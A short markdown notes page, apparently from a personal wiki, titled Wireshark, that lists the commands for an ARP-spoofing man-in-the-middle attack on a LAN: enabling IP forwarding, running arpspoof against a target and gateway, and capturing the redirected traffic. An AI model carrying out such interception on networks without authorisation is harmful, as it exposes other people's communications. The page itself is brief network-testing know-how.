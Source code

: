 ```yaml
---
title: Wireshark
bookCollapseSection: true
weight: 642
---
```


### Sniff lan traffic

* Install `dsniff` o any package that furnishes `arpspoof`
* Enable IP forwarding with `echo 1 > /proc/sys/net/ipv4/ip_forward`
* Start the Arp spoofing with `arpspoof -i eth0 -t 192.168.0.3 192.168.0.1` where `-t` is the target ip and the following is the ip of the gateway. This way the target computer will think our computer is the gateway and will route all packets through it. The local pc will then forward all the packets to the real gateway
* Use Wireshark on the local network interface (eth0, in the above case) to sniff the traffic
